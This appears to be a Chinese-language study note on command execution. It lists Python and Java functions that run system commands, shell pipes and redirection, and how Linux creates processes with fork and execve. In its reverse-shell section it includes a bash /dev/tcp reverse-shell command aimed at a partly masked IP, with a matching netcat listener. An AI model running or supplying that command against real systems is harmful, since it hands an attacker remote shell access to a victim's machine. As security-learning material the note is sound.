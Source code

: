 **python：**

```python
os.system()   #执行系统指令
os.popen()   #popen()方法用于从一个命令打开一个管道subprocess.call #执行由参数提供的命令
```

**java：**

```java
Runtime.getRuntime().exec()
ProcessBuilder()
```

**shell相关知识**

https://www.jianshu.com/p/410cd35e642f

*管道符：*

command1 | command2  前一个命令的输出作为后一个命令的输入

*重定向:*

command1 < input.txt  将input.txt的文本的内容作为command1的参数

command2 > out.txt  将command2的输出结果输出到out.txt里面 

*反弹shell：*

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 //受害者

nc -lvvp 2333//攻击者
```

**命令解释：**

![image-20240221182027234](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240221182027234.png)

**Linux进程的创建**

这是**fork**创建子进程：

![image-20240221182154108](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240221182154108.png)

**这是execve和fork的区别：**

![image-20240221182700228](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240221182700228.png)

当执行命令的时候：

bash  -c  whoami 

其实在内核执行了下面的操作：

```
bash(pid:52351) --> sys_fork  --> bash(pid:52792) --> sys_execve  -->  /bin/whoami(pid:52793)
```

**strace**
